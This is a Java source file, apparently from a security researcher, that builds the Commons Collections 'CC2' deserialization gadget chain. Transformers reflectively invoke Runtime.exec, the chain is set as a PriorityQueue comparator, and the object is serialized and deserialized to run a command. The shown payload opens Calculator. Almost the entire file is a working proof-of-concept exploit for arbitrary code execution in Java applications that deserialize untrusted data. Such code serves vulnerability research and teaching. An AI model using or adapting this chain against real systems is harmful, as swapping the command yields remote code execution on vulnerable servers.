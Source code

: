 ```java
/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/26 9:42 下午
 */
public class CommonsCollectionsGadget1 {
    // public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
    public static void CC2() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
